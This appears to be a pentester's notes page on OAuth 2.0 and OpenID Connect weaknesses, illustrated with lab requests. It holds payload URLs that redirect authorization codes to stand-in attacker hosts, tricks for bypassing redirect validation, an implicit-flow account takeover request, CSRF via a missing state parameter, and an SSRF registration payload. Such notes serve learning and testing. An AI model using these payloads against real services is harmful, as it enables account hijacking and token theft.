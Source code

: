 # OAuth 2.0

## <mark style="color:yellow;">What is OAuth?</mark>

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

## <mark style="color:yellow;">How does OAuth 2.0 work?</mark>

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

## <mark style="color:yellow;">Identifying OAuth authentication</mark>

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### <mark style="color:yellow;">Recon</mark>

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

## <mark style="color:yellow;">Vulnerabilities</mark>

### <mark style="color:yellow;">Improper implementation of the implicit grant type</mark>

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### <mark style="color:yellow;">Account hijacking via redirect\_uri</mark>

Replace redirect\_uri with a attacker controlled domain

```
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{% hint style="info" %}
**Note**: using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{% endhint %}

**Flawed redirect\_uri validation**

```
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

```
https://server.net/post/next?path=https://attacker.com
```

2. Use this url as `redirect_uri`&#x20;

```
https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
```

{% hint style="success" %}
Tip: the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`
{% endhint %}

### <mark style="color:yellow;">Flawed CSRF protection</mark>

Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the `state` parameter.

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

Consider a website that allows users to log in using either a classic, password-based mechanism or by linking their account to a social media profile using OAuth. In this case, if the application fails to use the `state` parameter, an attacker could potentially hijack a victim user's account on the client application by binding it to their own social media account.

Note that if the site allows users to log in exclusively via OAuth, the `state` parameter is arguably less critical. However, not using a `state` parameter can still allow attackers to construct login CSRF attacks, whereby the user is tricked into logging in to the attacker's account.

## <mark style="color:yellow;">OpenID Connect</mark>

### <mark style="color:yellow;">Identifying OpenID Connect</mark> <a href="#identifying-openid-connect" id="identifying-openid-connect"></a>

Look for the mandatory `openid` scope

### <mark style="color:yellow;">Unprotected dynamic client registration</mark>

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "application_type": "web",
    "client_name": "My Application",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

```http
HTTP/2 201 Created
[...]

{[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`

